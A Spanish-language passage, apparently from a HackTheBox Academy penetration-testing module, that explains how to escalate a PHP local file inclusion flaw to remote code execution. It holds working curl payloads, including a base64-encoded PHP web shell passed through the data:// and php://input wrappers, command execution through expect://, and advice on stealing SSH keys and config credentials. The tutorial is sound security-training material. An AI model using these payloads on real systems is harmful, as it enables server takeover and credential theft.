 Hasta ahora, en este módulo, hemos estado explotando vulnerabilidades de inclusión de archivos para revelar archivos locales a través de varios métodos. A partir de esta sección, comenzaremos a aprender cómo podemos utilizar vulnerabilidades de inclusión de archivos para ejecutar código en los servidores de back-end y tomar control sobre ellos.

Podemos usar muchos métodos para ejecutar comandos remotos, cada uno de los cuales tiene un caso de uso específico, ya que dependen del lenguaje/framework del back-end y de las capacidades de la función vulnerable. Un método fácil y común para ganar control sobre el servidor de back-end es enumerar credenciales de usuario y claves SSH, y luego usarlas para iniciar sesión en el servidor de back-end a través de SSH o cualquier otra sesión remota. Por ejemplo, podemos encontrar la contraseña de la base de datos en un archivo como `config.php`, que podría coincidir con la contraseña de un usuario en caso de que reutilicen la misma contraseña. O podemos revisar el directorio `.ssh` en el directorio home de cada usuario, y si los privilegios de lectura no están configurados correctamente, entonces podríamos capturar su clave privada (`id_rsa`) y usarla para iniciar sesión en el sistema a través de SSH.

Además de estos métodos triviales, hay formas de lograr la ejecución remota de código directamente a través de la función vulnerable sin depender de la enumeración de datos o de los privilegios de archivos locales. En esta sección, comenzaremos con la ejecución remota de código en aplicaciones web PHP. Construiremos sobre lo aprendido en la sección anterior y utilizaremos diferentes `PHP Wrappers` para ganar ejecución remota de código. Luego, en las próximas secciones, aprenderemos otros métodos para ganar ejecución remota de código que pueden ser utilizados con PHP y otros lenguajes también.

---

## Data

El [data](https://www.php.net/manual/en/wrappers.data.php) wrapper puede ser usado para incluir datos externos, incluyendo código PHP. Sin embargo, el data wrapper solo está disponible para usar si la configuración (`allow_url_include`) está habilitada en las configuraciones de PHP. Así que, primero confirmemos si esta configuración está habilitada leyendo el archivo de configuración de PHP a través de la vulnerabilidad LFI.

### Verificación de Configuraciones de PHP

Para hacerlo, podemos incluir el archivo de configuración de PHP que se encuentra en (`/etc/php/X.Y/apache2/php.ini`) para Apache o en (`/etc/php/X.Y/fpm/php.ini`) para Nginx, donde `X.Y` es la versión de PHP instalada. Podemos comenzar con la versión más reciente de PHP e intentar con versiones anteriores si no podemos localizar el archivo de configuración. También utilizaremos el filtro `base64` que usamos en la sección anterior, ya que los archivos `.ini` son similares a los archivos `.php` y deben ser codificados para evitar rupturas. Finalmente, usaremos cURL o Burp en lugar de un navegador, ya que la cadena de salida podría ser muy larga y deberíamos capturarla adecuadamente:



```r
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

Una vez que tenemos la cadena codificada en base64, podemos decodificarla y buscar (`grep`) `allow_url_include` para ver su valor:



```r
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

¡Excelente! Vemos que tenemos esta opción habilitada, así que podemos usar el `data` wrapper. Saber cómo verificar la opción `allow_url_include` puede ser muy importante, ya que `esta opción no está habilitada por defecto`, y es necesaria para varios otros ataques LFI, como el uso del `input` wrapper o para cualquier ataque RFI, como veremos a continuación. No es raro ver esta opción habilitada, ya que muchas aplicaciones web dependen de ella para funcionar correctamente, como algunos plugins y temas de WordPress, por ejemplo.

### Ejecución Remota de Código

Con `allow_url_include` habilitado, podemos proceder con nuestro ataque `data` wrapper. Como se mencionó anteriormente, el `data` wrapper puede ser usado para incluir datos externos, incluyendo código PHP. También podemos pasarle cadenas codificadas en `base64` con `text/plain;base64`, y tiene la capacidad de decodificarlas y ejecutar el código PHP.

Entonces, nuestro primer paso sería codificar en base64 un web shell PHP básico, de la siguiente manera:



```r
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Ahora, podemos codificar en URL la cadena en base64, y luego pasarla al data wrapper con `data://text/plain;base64,`. Finalmente, podemos pasar comandos al web shell con `&cmd=<COMMAND>`:

`http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`

![](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)

También podemos usar cURL para el mismo ataque, de la siguiente manera:



```r
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Input

Similar al `data` wrapper, el [input](https://www.php.net/manual/en/wrappers.php.php) wrapper puede ser usado para incluir input externo y ejecutar código PHP. La diferencia entre él y el `data` wrapper es que pasamos nuestro input al `input` wrapper como datos de una solicitud POST. Entonces, el parámetro vulnerable debe aceptar solicitudes POST para que este ataque funcione. Finalmente, el `input` wrapper también depende de la configuración `allow_url_include`, como se mencionó anteriormente.

Para repetir nuestro ataque anterior pero con el `input` wrapper, podemos enviar una solicitud POST a la URL vulnerable y agregar nuestro web shell como datos POST. Para ejecutar un comando, lo pasaríamos como un parámetro GET, como hicimos en nuestro ataque anterior:



```r
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Nota:** Para pasar nuestro comando como una solicitud GET, necesitamos que la función vulnerable también acepte solicitudes GET (es decir, use `$_REQUEST`). Si solo acepta solicitudes POST, entonces podemos poner nuestro comando directamente en nuestro código PHP, en lugar de un web shell dinámico (por ejemplo, `<\?php system('id')?>`)

---

## Expect

Finalmente, podemos utilizar el [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, que nos permite ejecutar comandos directamente a través de streams de URL. Expect funciona de manera muy similar a los web shells que hemos utilizado anteriormente, pero no necesitamos proporcionar un web shell, ya que está diseñado para la ejecución de comandos.

Sin embargo, expect es un wrapper externo, por lo que necesita ser instalado y habilitado manualmente en el servidor de back-end, aunque algunas aplicaciones web dependen de él para su funcionalidad central, por lo que podríamos encontrarlo en casos específicos. Podemos determinar si está instalado en el servidor de back-end de la misma manera que hicimos con `allow_url_include` anteriormente, pero buscaríamos (`grep`) `expect`, y si está instalado y habilitado obtendríamos lo siguiente:



```r
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

Como podemos ver, la palabra clave de configuración `extension` se usa para habilitar el módulo `expect`, lo que significa que deberíamos poder usarlo para obtener RCE a través de la vulnerabilidad LFI. Para usar el módulo expect, podemos usar el wrapper `expect://` y luego pasar el comando que queremos ejecutar, de la siguiente manera:



```r
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Como podemos ver, ejecutar comandos a través del módulo `expect` es bastante sencillo, ya que este módulo fue diseñado para la

 ejecución de comandos, como se mencionó anteriormente. El módulo [Web Attacks](https://academy.hackthebox.com/module/details/134) también cubre el uso del módulo `expect` con vulnerabilidades XXE, por lo que si tienes una buena comprensión de cómo usarlo aquí, deberías estar listo para usarlo con XXE.

Estos son los tres PHP wrappers más comunes para ejecutar comandos del sistema directamente a través de vulnerabilidades LFI. También cubriremos los wrappers `phar` y `zip` en las próximas secciones, que podemos usar con aplicaciones web que permiten la carga de archivos para obtener ejecución remota a través de vulnerabilidades LFI.